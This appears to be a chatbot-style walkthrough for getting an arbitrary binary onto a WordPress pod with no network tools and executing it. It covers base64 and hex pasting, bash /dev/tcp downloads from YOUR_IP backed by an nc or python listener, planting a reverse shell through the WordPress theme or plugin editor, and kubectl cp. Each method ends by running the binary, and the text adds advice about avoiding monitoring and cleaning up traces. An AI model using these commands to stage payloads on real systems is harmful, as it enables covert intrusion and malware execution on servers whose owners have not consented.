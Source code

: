 1. Base64 Encoding + Copy/Paste
Base64 encoding is a common way to convert binary data into a text format that can be easily copied and pasted between machines. Once you paste the Base64 data, you decode it back into its binary form.

Steps:

On your local machine, encode the binary (e.g., your_binary) into Base64:

bash
Copy code
base64 your_binary > binary.b64
This converts the binary file into a long string of Base64 text.

On the WordPress pod, create a new file where you can paste the Base64 string:

bash
Copy code
cat > binary.b64
After running the command, paste the Base64 content into the pod and press Ctrl+D to save the file.

Decode the Base64 file back into the original binary:

bash
Copy code
base64 -d binary.b64 > your_binary
chmod +x your_binary   # Make it executable
./your_binary          # Run the binary
Why it works: Even without network utilities (curl, wget, etc.), most shells have cat and base64 utilities. This approach works as long as the shell supports Base64 decoding.

2. echo or printf File Transfer (Hex Dumping)
Hex dumping is another way to convert binary files into text that can be easily pasted into a terminal. It works similarly to Base64 but uses hexadecimal encoding.

Steps:

On your local machine, convert the binary file into hexadecimal using xxd:

bash
Copy code
xxd -p your_binary > binary.hex
This creates a text file containing the hexadecimal representation of the binary.

On the WordPress pod, create a file to paste the hex dump into:

bash
Copy code
cat > binary.hex
Paste the hex content and save it with Ctrl+D.

Convert the hex back into a binary file:

bash
Copy code
xxd -r -p binary.hex your_binary
chmod +x your_binary    # Make it executable
./your_binary           # Run the binary
Why it works: Like Base64, xxd is often available in shells. This method is especially useful for small files since it doesn't require additional tools.

3. Script a Reverse Shell to Transfer Files
If you can establish a reverse shell, you can use it to create a file transfer connection between your local machine and the pod. A reverse shell allows the pod to connect back to a listener on your machine.

Steps:

On your local machine, set up a simple HTTP server to host the file:

bash
Copy code
python3 -m http.server 8000
This command will serve files in the current directory over HTTP on port 8000.

On the WordPress pod, use bash to connect to your local server:

bash
Copy code
exec 5<>/dev/tcp/YOUR_IP/8000
cat <&5 > your_binary   # Save the incoming data into your_binary
After the file transfer completes, make the binary executable:

bash
Copy code
chmod +x your_binary
./your_binary
Why it works: If /dev/tcp is enabled in the shell, you can establish raw TCP connections without needing curl or nc. This approach relies on creating an outbound connection to your server.

4. Use the WordPress Filesystem
Since you are working with a WordPress pod, there may be opportunities to upload files directly via the WordPress admin interface if it is accessible.

Steps:

Access the WordPress dashboard (if possible) using a browser.
Go to Appearance > Theme Editor or Plugins > Plugin Editor.
If editing is enabled, you can upload a reverse shell script or a file containing the binary data by embedding it into PHP code. For example, you could use PHP to decode a Base64 string and save it as a file on the server.
Caution: This method is potentially noisy because changes to the WordPress site could be detected by monitoring systems. Always clean up after any changes you make.

5. Leverage Kubernetes Features
If the WordPress pod is running in a Kubernetes environment and you have some access to Kubernetes features, you may be able to use kubectl to copy files directly into the pod.

Steps:

On a machine that has Kubernetes admin privileges, use kubectl cp to copy a file from your local system into the WordPress pod:

bash
Copy code
kubectl cp ./your_binary default/wordpress-pod:/path/to/destination
Then, on the pod:

bash
Copy code
chmod +x /path/to/destination/your_binary
/path/to/destination/your_binary
Why it works: If you have access to Kubernetes admin tools like kubectl, you can directly interact with the pod’s filesystem.

6. Using /dev/tcp for Transfers
Some shells support file transfers using bash built-in TCP connections through /dev/tcp/. You can use this feature to download files from your machine.

Steps:

On your local machine, start a listener that serves the binary file:

bash
Copy code
nc -lvp 8000 < your_binary
On the WordPress pod, use bash to connect to the listener and receive the file:

bash
Copy code
exec 3<>/dev/tcp/YOUR_IP/8000
cat <&3 > your_binary
Once the file is downloaded, make it executable:

bash
Copy code
chmod +x your_binary
./your_binary
Why it works: /dev/tcp is a lesser-known but powerful feature in bash that can be used to establish direct TCP connections without needing extra tools like nc.

Key Considerations:
File Size: These methods work well for smaller files (typically under a few MB). For larger files, you'll need to split them into chunks or find another solution.
Security Monitoring: Some methods (e.g., modifying WordPress files or using reverse shells) can be more easily detected by security systems or leave traces. Be mindful of any cleanup you need to do afterward.
Pod Privileges: Your ability to use these methods depends on the configuration of the shell environment. For example, /dev/tcp might not be available on every shell.
